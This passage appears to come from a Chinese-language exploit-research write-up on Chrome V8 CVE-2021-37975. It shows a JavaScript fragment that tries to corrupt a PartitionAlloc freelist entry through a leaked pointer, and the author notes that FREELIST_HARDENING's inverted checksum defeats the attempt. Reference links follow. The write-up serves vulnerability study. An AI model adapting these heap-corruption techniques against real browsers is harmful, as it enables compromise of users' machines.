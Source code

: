 ```javascript
			if (!arrbuf)
				return;
		
			let maybe_free_entry = new BigUint64Array(arrbuf, 0, 2);
			let leak_value = maybe_free_entry[0];
			if (leak_value != 0 && leak_value != undefined) {
				next_slot = byteSwapBigInt(BigInt(leak_value));
				meta = getPartitionPageMetadataArea(next_slot);
		
		
				%DebugPrint(`0x${next_slot.toString(16)}`);
				%DebugPrint(`0x${meta.toString(16)}`);
		
				maybe_free_entry[0] = byteSwapBigInt(meta);
				maybe_free_entry[1] = ~ maybe_free_entry[0];
		
				%DebugPrint(`0x${maybe_free_entry[0].toString(16)}`);
				%DebugPrint(`0x${maybe_free_entry[1].toString(16)}`);
		
				alert(1);
				var keep = [];
				while (maybe_free_entry[0] != 0) {
					keep.push(new ArrayBuffer(0x10));
				}
		
				free_list_head = new ArrayBuffer(8);
				helper = new BigUint64Array(free_list_head);
				
				helper[0] = 0x00000000cccccccc;
				keep.push(new ArrayBuffer(8));
				
			}
		} catch (e) {
			alert(`${e.lineNumber}:${e.message}`);
		}

	} catch (e) {}
}
```

试了以后就发现，这个版本的 PartitionAlloc 增加了 FREELIST_HARDENING 特性，空闲内存块中除了空闲链表项，还额外存储了 8 字节作为校验值，这 8 字节存储了链表项的按位取反，因为我们只有实现了写任意/特定内存的能力才能修改链表头后面的 8 字节值的，所以不太可能绕过这个校验了。

## 参考
- https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2021/CVE-2021-37975.html
- https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_37975/
- https://v8.dev/blog/trash-talk
- https://en.wikipedia.org/wiki/Cheney%27s_algorithm
- https://en.wikipedia.org/wiki/Tracing_garbage_collection
- https://securelist.com/the-zero-day-exploits-of-operation-wizardopium/97086/